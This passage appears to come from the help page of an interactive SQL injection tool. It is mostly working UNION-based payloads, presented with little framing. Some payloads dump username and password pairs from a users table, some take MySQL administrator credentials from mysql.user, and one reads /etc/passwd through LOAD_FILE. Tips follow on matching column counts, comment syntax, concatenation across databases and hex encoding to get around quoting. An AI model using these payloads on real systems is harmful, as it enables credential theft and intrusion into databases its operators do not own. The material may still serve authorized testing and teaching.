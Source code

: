 #### Extract Data from Table
```
0' UNION SELECT 1,CONCAT(username,':',password),3 FROM users -- -
```
This extracts username and password pairs from a users table.

#### Multiple Column Data
```
0' UNION SELECT 1,CONCAT(user_id,':',username,':',password,':',email),3 FROM users -- -
```
Extract multiple columns separated by colons.

#### Database Administrator Accounts
```
0' UNION SELECT 1,CONCAT(user,':',password),3 FROM mysql.user -- -
```
On MySQL, attempt to get database admin credentials.

#### File System Access (MySQL)
```
0' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3 -- -
```
Attempts to read system files (requires appropriate permissions).

### Tips for Crafting Payloads

1. **Match Column Count**: When using UNION attacks, ensure the number of columns matches the original query. If you get errors, try different numbers (e.g., `1,2,3` or `1,2,3,4`).

2. **Data Type Matching**: When using UNION, the data types must match the original query. Use NULL for columns you don't need:
   ```
   0' UNION SELECT NULL,username,NULL FROM users -- -
   ```

3. **Comment Techniques**: Different databases use different comment styles:
   - MySQL/PostgreSQL: `-- -` or `#`
   - SQL Server: `--`
   - Oracle: `--`

4. **String Concatenation**: Different databases have different concatenation operators:
   - MySQL: `CONCAT(col1, col2)`
   - SQL Server: `col1 + col2`
   - Oracle: `col1 || col2`
   - PostgreSQL: `col1 || col2`

5. **Escaping Problems**: If quotes or other characters cause issues, try using hex encoding:
   ```
   0' UNION SELECT 1,0x48656C6C6F20576F726C64,3 -- -
   ```
   (This injects "Hello World" in hex)

### Exiting Interactive Mode

To exit interactive mode, simply type:
```
exit
```
